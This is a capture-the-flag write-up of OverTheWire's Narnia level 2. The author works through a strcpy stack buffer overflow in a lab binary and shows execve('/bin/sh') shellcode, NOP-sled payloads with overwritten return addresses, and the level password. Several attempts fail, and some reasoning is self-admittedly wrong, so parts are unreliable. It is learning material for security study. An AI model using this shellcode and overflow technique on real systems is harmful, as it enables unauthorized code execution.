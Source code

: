 # Narnia 2

Password: `nairiepecu`

C Code:

```C
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

Looks to be a proper stack overflow, abusing the `strcpy` command (which doesnt check destination buffer length). My initial thoughts are that if I can overflow buffer so it overwrites the next instruction after strcpy (which will be where the instruction pointer is, and so the next instruction will be run) I can bounce into my own shellcode. Maybe just prefix the shellcode from narnia1 with a sufficient set of `no-op` codes so its lined up correctly?

Something like `./narnia2 "$(echo -e '\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')"`, with the shellcode prefixed with multiple `\x90` to get into the right position.

The buffer is 128 chars, so after 128 we have overloaded the buffer and start overwriting the main code. The strcpy command is around 56 32bit words down, so we need to overwrite by a further 1152 bytes...I think. I gave this a go, but it wasn't successful. 

However I did discover that if I overflowed the buffer by 136 characters, the final four characters overwrote the return address from the main function. From this, after a bit of further research, I worked out that the approach might be to include the shell code in the buffer, then jump to it by overflowing the return address. Hmm.

At this point I spent some time doing some learning. The following three videos from LiveOverflow were very helpful (they're in a row as part of the Binary Hacking playlist):

- [First Stack Buffer Overflow to modify Variable - bin 0x0C](https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13)
- [Buffer Overflows can Redirect Program Execution - bin 0x0D](https://www.youtube.com/watch?v=8QzOC8HfOqU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14)
- [First Exploit! Buffer Overflow with Shellcode - bin 0x0E](https://www.youtube.com/watch?v=HSlhY4Uy8SA&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=15)

On top of that, the original article by AlephOne on stack overflows fills in the missing pieces, and is excellent:

[Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)

## Steps

The buffer size is 128. I am going to insert the shellcode from narnia1 I came up with, prefixed with NOP instructions and post fixed with a return address that attempts to force the program to jump back into the buffer when it returns from main.

Running GDB with the following string:

ABCDEFGHIJKLMNOPQRSTUVWXYZ67890123456789AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Causes ret to be overflown with XXXX. So we can set the ret address to whatever by replacing XXXX in our dev string with something else.

Breakpointing after the strcpy shows the first address of the buffer (containing ABCD in reverse order) is 0xffffd5a8.

Our shellcode, \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68, is in reality 28 characters long.

So perhaps shellcode + padding + address?

Address is \xa8\xd5\xff\xff

Padding is 132 - 28 = 104, so AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Final string is \xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff

```
./narnia2 $(echo -e "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa8\xd5\xff\xff")
```

This results in a segfault :( Back to GDB...

Maybe prefix with NOPs?

```
./narnia2 $(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\xc0\xd5\xff\xff")
```

The code is getting executed but doesnt seem to be jumping into execve.

Bouncing around the net, this code is doing what I am trying to do, and works:

`./narnia2 $(python -c 'print "\x90"*75 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc8\xd5\xff\xff"*11')`

Breaking down my code, and switching to python to see if encoding is easier (and to make it easier to evaluate):

Total character size: 136 (75 + 25 + 44 in working code, so 144)
Length of my shellcode: 28

My python script would be `./narnia2 $(python -c 'print "\x90" * 75 + "\xeb\x0e\x31\xdb\x5b\x31\xc9\x31\xd2\x31\xc0\x83\xc0\x0b\xcd\x80\xe8\xed\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\xc0\xd5\xff\xff" * 10')`

No luck. Try with the shellcode from the previous example? `./narnia2 $(python -c 'print "\x90" * 75 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xc0\xd5\xff\xff" * 10')`

Still no luck. Back to the original 'working' script and it fails now with segfault. So there is an element of randomness here.